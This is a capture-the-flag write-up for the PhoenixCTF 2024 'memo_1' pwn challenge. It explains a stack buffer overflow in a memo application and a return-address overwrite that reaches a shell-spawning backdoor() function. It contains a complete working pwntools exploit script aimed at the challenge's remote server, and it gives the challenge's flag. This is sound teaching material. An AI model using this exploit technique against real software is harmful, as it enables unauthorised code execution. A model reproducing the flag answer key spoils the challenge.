








# PhoenixCTF 2024 - `memo_1` Writeup
```
pts: 35
Author: shunt
Category: pwn
```

Challenge files: [chall](./chal)

# TL;DR
This was the first challenge of the `memo` pwn series. There were total 4 challenges and I drew first-blood in solving the series. The difficulty increased in each successive challenge.

`memo-1` was the easiest chall in the series involving a [buffer overflow](https://youtu.be/T03idxny9jE?si=clcEV1HMXu2k4lzR) vuln. There was a function called `backdoor()` which executed `execve("/bin/sh", 0, 0)`. [PIE](https://ir0nstone.gitbook.io/notes/types/stack/pie) was disabled in the binary, so I just had to [overwrite the return address](https://youtu.be/8QzOC8HfOqU?si=DvSNaBZaxWhGEiBr) with the address of `backdoor()` and get the shell. Simple!

Final Exploit Script: [solve.py](#solvepy)

> **If you're not familiar with the techniques mentioned, I recommend clicking on the links above to gain a better understanding.**

# Detailed Solution
The behavior of all the challenges are mostly same. That's why I'll explain the behavior in detail here for `memo-1` and assume the same in the next challs.
## Initial Analysis
With any pwn chall, I first check the type of file and the protection enabled on it.
```bash
$ file chal
chal: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=2bfe77025f4b87113ead015c186a8caed92395d7, for GNU/Linux 3.2.0, not stripped
```


`checksec` is a utility that comes with [pwntools](https://github.com/Gallopsled/pwntools). [GEF](https://github.com/hugsy/gef) also has it. As we can see from the image, the binary has no PIE enabled which makes our job easier as all the function/instruction addresses will be constant i.e. the same in both my local machine and the remote server.

Lets run the binary to observer its behavior.
```bash
$ ./chal

Memo Application Menu
1. Add Memo
2. Edit Memo
3. View Memo
4. Exit
> 1
Enter password: asdf
Authentication failed

Memo Application Menu
1. Add Memo
2. Edit Memo
3. View Memo
4. Exit
> 2
Add a memo first

Memo Application Menu
1. Add Memo
2. Edit Memo
3. View Memo
4. Exit
> 3
Add a memo

Memo Application Menu
1. Add Memo
2. Edit Memo
3. View Memo
4. Exit
> 4
$
```
The binary presents us with 4 options, `add`, `edit`, `view` and `exit`. If we try to add, it asks for password. For edit and view, we must add a memo first. This behavior of binary will be same for all the challenges in the series. So we can reuse some part of our solution to the next challenges, especially the interaction with the remote binary. Now we'll open the binary in [Ghidra](https://ghidra-sre.org/), the ultimate swiss-knife for reversing, and view the decompiled code to exactly understand what the binary is doing.
## Looking at Ghidra
We can see there are 5 functions of interest: `main()`, `challenge()`, `menu()`, `authenticate()` and `backdoor()`.

The `main()` function calls `challenge()` which is where the main program logic lies.
```C
int main(EVP_PKEY_CTX *param_1)
{
  init(param_1);
  challenge();
  return 0;
}


void challenge(void)
{
/*
	Variable declarations; Omitted
*/
  
  local_128[0] = 0;
  local_128[1] = 0;
  puVar4 = local_128 + 2;
  for (lVar2 = 0x1f; lVar2 != 0; lVar2 = lVar2 + -1) {
    *puVar4 = 0;
    puVar4 = puVar4 + 1;
  }
  local_130 = 0;
  local_138 = 0;
  local_140 = 0xffffffffffffffff;
  do {
    menu();
    __isoc99_scanf("%zu%*c",&local_140);
    // Exit
    if (local_140 == 4) {
      return;
    }
    if (local_140 < 5) {
    // View memo
      if (local_140 == 3) {
        if (added == 0) {
          puts("Add a memo");
        }
        else {
          iVar1 = authenticate();
          if (iVar1 == 0) {
            printf("Memo: %s\n",local_128);
          }
          else {
            puts("Authentication failed");
          }
        }
      }
      else {
        if (3 < local_140) goto LAB_0040162c;
        // Add memo
        if (local_140 == 1) {
          if (added == 0) {
            iVar1 = authenticate();
            if (iVar1 == 0) {
              printf("Enter memo size: ");
              __isoc99_scanf("%zu%*c",&local_130);
              printf("Add memo text: ");
              sVar3 = local_130;
              iVar1 = fileno(stdin);
              read(iVar1,local_128,sVar3);
              added = added + 1;
            }
            else {
              puts("Authentication failed");
            }
          }
          else {
            puts("Memo added already");
          }
        }
        else {
          if (local_140 != 2) goto LAB_0040162c;
          // Edit memo
          if (added == 0) {
            puts("Add a memo first");
          }
          else {
            iVar1 = authenticate();
            if (iVar1 == 0) {
              printf("Position: ");
              __isoc99_scanf("%zu%*c",&local_138);
              if (0x108 < local_138) {
                perror("Out of bounds error");
                FUN_00401160(0xffffffff);
              }
              printf("Add memo text: ");
              sVar3 = local_130 - local_138;
              lVar2 = local_138 * 0x21;
              iVar1 = fileno(stdin);
              read(iVar1,local_128 + lVar2,sVar3);
            }
            else {
              puts("Authentication failed");
            }
          }
        }
      }
    }
    else {
LAB_0040162c:
      printf("Invalid choice");
    }
    // Exit
    if (local_140 == 4) {
      return;
    }
  } while( true );
}
```
The `menu()` function just prints the options, `authenticate()` checks the password and `backdoor()` calls `execve()` to execute shell.
```C
void menu(void)
{
  puts("\nMemo Application Menu");
  puts("1. Add Memo");
  puts("2. Edit Memo");
  puts("3. View Memo");
  puts("4. Exit");
  printf("> ");
  return;
}

void authenticate(void)
{ 
  local_10 = 0;
  printf("Enter password: ");
  __fd = fileno(stdin);
  read(__fd,&local_10,8);
  strncmp((char *)&password,(char *)&local_10,8);
  return;
}

void backdoor(void)
{
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}
```
Its kinda obvious that we have to somehow call this `backdoor()` function to get shell and once we get the shell, we can then get the flag from there.
## Finding the vuln
After seeing what's there inside the binary, first we have to find the password first. Actually its pretty easy to see what's the password inside Ghidra as the password is stored as a global variable inside the binary.



The hex above translates to `goodluck` which is the password.

Now that we know the password, its time to figure out the vulnerability. Actually, there were several vulnerabilities in this binary in each of the three options `add`, `view` and `edit`. I was looking for any kind of buffer overflow vuln in the binary. If there was, then it would be pretty easy to overwrite the return address with the address of `backdoor()` (since there's no PIE, we have the address readily available) and redirect execution to get shell. And I found one in the `add` option.



As we can see, we can read arbitrary size buffer in the variable `local_128` which is allocated on the stack. Thus we can overflow the allocated space for the variable and overwrite the return address. Now our job would to find the offset i.e. the number of garbage bytes we need to send before overwriting the return address. Diagrammatically, the stack frame of the `challenge()` function would look like this:
```
--------------------------------
+  Return Address              +
--------------------------------
+  RBP                         +
--------------------------------
+                              +
+  local_128                   +
+                              +
--------------------------------
```
There's an easy way to find the offset inside gef. We create a pattern of large enough size and then pass that pattern as input to the binary and as the return address would be overwritten with a garbage value, the program will crash. Then we use gef again with the bytes that overwrote the return address or RIP to figure out the offset.
```
gef➤  pattern create 300
[+] Generating a pattern of 300 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
[+] Saved as '$_gef0'
```






So, RBP is at offset 288 and RIP is therefore at 288+8 = 296 bytes from our buffer. Now we know how many bytes of garbage bytes we need to send. Lets get the address of `backdoor()` and then we are ready to build our exploit.



So, diagrammatically, our exploit will overflow the stack like following:
```
--------------------------------
+  Address of backdoor()       +
--------------------------------
+                              +
+  296 garbage bytes           +
+                              +
--------------------------------
```
So when we use the exit option, it will pop the return address on the stack, which is now the address of `backdoor()`, then set RIP to this address and backdoor() is executed. Voila! we get our shell.

I automated the interaction with the remote binary using `pwntools`. Anyone wishing to solve pwn challenges must learn this which will make life a lot lot easier.
## Getting the flag
Ran the exploit script, got the shell and cat the flag.



## solve.py
```python
#!/usr/bin/env python3.8

from pwn import *
import warnings
import re

# Allows you to switch between local/GDB/remote from terminal
def connect():
    if args.GDB:
        r = gdb.debug(elf.path, gdbscript=gdbscript)
    elif args.REMOTE:
        r = remote("167.71.172.242", 31088)
    else:
        r = process([elf.path])
    return r

# Specify GDB script here (breakpoints etc)
gdbscript = """
    set follow-fork-mode child
    start
    b *challenge+765
"""

# Binary filename
exe = './chal'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
warnings.filterwarnings("ignore", category=BytesWarning, message="Text is not bytes; assuming ASCII, no guarantees.")

# =======================
# EXPLOIT AFTER THIS
# =======================
r = connect()

offset = 296
BACKDOOR = 0x40133f
payload = b"A" * offset
payload += p64(BACKDOOR)

print(r.recvuntil("> "))
r.sendline("1") # Add Memo
print(r.recvuntil(": "))
r.sendline("goodluck") # password
print(r.recvuntil(": "))
r.sendline("304") # memo size
print(r.recvuntil(": "))
r.sendline(payload) # payload to call backdoor()
print(r.recvuntil("> "))
r.sendline("4") # Exit, to call ret

r.interactive()
```

## Flag
`flag{1a75473b-d905-4c72-bb58-b08a587a9a19}`
